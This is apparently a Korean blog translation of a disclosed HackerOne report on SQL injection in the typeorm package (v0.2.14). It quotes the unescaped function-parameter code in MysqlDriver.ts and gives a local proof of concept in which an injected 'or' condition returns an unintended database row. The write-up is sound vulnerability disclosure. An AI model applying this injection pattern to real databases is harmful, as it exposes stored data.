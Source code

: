 ```yaml
---
layout: post
title: SQL 인젝션 (Typeorm)
categories: PoC
tags: [Bugbounty, SQLinjection, Translation, Hackerone]
---
```

출처 : [hackerone hacktivity, 작성자 : verichains (verichains)] https://hackerone.com/reports/506654

[ 본 이슈는 해결 된 상태이며, 취약점은 한국시각으로 2019년 4월 2일 오후 1시 25분에 공개되었습니다. Node.js third-party modules에 리포팅 되었으며, 소스코드는 typeorm의 자산입니다. 취약점의 종류는 SQL Injection이며, 포상금은 없습니다. 해당 취약점은 해당 도메인에서 8.6/10 정도의 심각성을 내포하고 있습니다. ]
- - -
(써드파티 모듈인) Typeorm의 SQL 인젝션을 리포팅 하고 싶습니다. 이 취약점은 데이터베이스의 자료들을 노출시킵니다.

# 모듈
* 모듈 이름 : typeorm
* 버전 : 0.2.14
* npm 페이지 : https://www.npmjs.com/package/typeorm
  
## 모듈 설명

TypeORM은 Nodejs, 브라우저, Cordova, PhoneGap, Ionic, React Native, NativeScript, Expo 그리고 Electron platforms에서 실행될 수 있는 ORM입니다. 또한 TypeScript와 함께 쓰일 수 있으며 자바스크립트(ES5, ES6, ES7, ES8)와도 쓰일 수 있습니다. 이 모듈의 목적은 최신의 자바스크립트 기능들을 항시 지원해주는 것이고 추가 기능들을 제공해주는 것 이며 데이터베이스를 사용하는 어떤 종류의 애플리케이션 개발이라도 지원해줄 수 있도록 합니다. 몇 개 안되는 테이블을 가진 작은 애플리케이션부터 큰 스케일의 많은 데이터베이스를 가진 기업형 애플리케이션까지 말입니다.

현존하는 다른 자바스크립트 ORM들과는 다르게, TypeORM은 액티브 레코드와 데이터 매퍼 패턴 모두 지원하며, 이 말은 당신이 더 생산적인 방법으로 고 퀄리티의 중복이 적고 확장성있으며 유지가 잘되는 애플리케이션을 만들 수 있다는 것입니다.

## 모듈 스탯
npm의 모듈 페이지의 숫자들과 아래의 스탯들을 교체하세요(Replace stats below with numbers from npm’s module page:) :
- - -
# 취약점
## 취약점 설명
만약 한 함수가 이스케이핑을 하지 못한다면 특정한 맥락에서 SQL 인젝션이 공격자에 의해 수행될 여지를 주게되는데 이 때 **MysqlDriver.ts**의 **escapeQueryWithParameters** 메소드는 직접적으로 파라미터에서 값을 리턴합니다.
https://github.com/typeorm/typeorm/blob/d9f5581b22c4cccfab55ee23fad699e1c8acadf8/src/driver/mysql/MysqlDriver.ts#L387
{% highlight html %}
    if (value instanceof Function) {
        return value();

    } else {
        escapedParameters.push(value);
        return "?";
    }
{% endhighlight %}
의도치 않았고 잘은 모르겠지만, 그 문서 안에 정보는 없었고, (콜백 함수에 의해 값이 할당된) 만약 누군가가 이 패턴을 적용시킨다면 이것은 SQL 인젝션 공격이 될 것 입니다.

# 공격이 발생되는 과정
* 새로운 테스트 typeorm 패키지를 생성합니다.
{% highlight html %}
npx typeorm init --name Test --database mysql
{% endhighlight %}
* 로컬 크리덴셜을 위해 ormconfig.json을 수정합니다.
인젝션을 테스트 해보기 위해 index.ts 를 수정합니다.  
{% highlight html %}
import "reflect-metadata";
import {createConnection} from "typeorm";
import {User} from "./entity/User";

createConnection().then(async connection => {

    console.log("Inserting a new user into the database...");

    for(var i=0;i<10;i++) {
        const user = new User();
        user.firstName = `Timber ${i}`;
        user.lastName = "Saw";
        user.age = 25 + i;
        await connection.manager.save(user);
        console.log("Saved a new user with id: " + user.id);
    }

    const repo = connection.getRepository(User);

    console.log(await repo.createQueryBuilder().where('firstName = :name', {name: () => "-1 or firstName=0x54696d6265722033"}).getOne());

    process.exit(0);
}).catch(error => console.log(error));
{% endhighlight %}
(0x54696d6265722033 는 “Timber 3” 입니다)

출력 :  
{% highlight html %}
Inserting a new user into the database...
User { id: 5, firstName: 'Timber 3', lastName: 'Saw', age: 28 }
{% endhighlight %}
- - -
# 지원하는 요소나 레퍼런스
취약점이 발견된 스택에 관련된 기술적인 정보들
* MacOs
* NodeJS v8.12.0
* npm 6.4.1

# 정리
* maintainer가 알 수 있도록 컨택했습니다 : No
* 관련된 리포지토리 안의 정보들을 열람했습니다 : No
  
- - -
# 영향
공격자가 SQL 인젝션 공격을 수행할 수 있게 합니다.